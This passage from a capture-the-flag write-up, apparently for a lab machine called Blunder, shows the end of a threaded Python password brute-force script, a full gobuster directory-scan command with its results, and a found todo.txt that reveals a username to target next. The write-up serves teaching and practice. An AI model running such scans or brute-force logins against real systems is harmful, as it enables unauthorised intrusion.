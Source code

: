 ```python
    wordlist.extend(f.readlines())
  print(f'[*] loaded {len(wordlist)} values ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, wordlist)
```

But no luck... There must be something else to find? Try a directory search for common "note" files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.notes.txt -x txt,pdf,doc,docx \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.191/ &
```

This returns an interesting result:

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

`todo.txt` has the following content:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

It seems like `fergus` is a new username. Try the same bruteforce with `USERNAME` set to `fergus` in the Python script:

![brute1](./blunder/brute1.png)
